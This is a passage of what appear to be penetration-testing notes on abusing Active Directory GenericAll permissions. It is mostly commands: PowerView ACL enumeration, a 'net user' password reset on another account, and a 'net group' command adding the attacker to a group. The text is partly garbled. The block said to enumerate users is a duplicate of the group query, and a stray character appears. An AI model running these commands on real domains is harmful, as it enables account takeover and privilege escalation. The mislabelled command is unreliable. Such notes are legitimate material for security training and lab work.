

## Enumeration And Exploit
We can use the following command to enumerate any users who our current domain user has GenericAll rights on:
```Powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

This will enumerate all ACEs for all domain users, filtered by our current user.



The GenericAll access right gives us full control over the user, which among other things, allows us to change the password of the account without knowledge of the old password:
```shell
net user testservice1 h4x /domain
```

we can also enumerate all domain groups that our current user has explicit access rights to by piping the output of Get-DomainGroup into Get-ObjectAcl and filtering it

```Powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
z
With the having GenericAll rights on a group we can add ourselves in the same group with:
```sh
net group testgroup offsec /add /domain
```

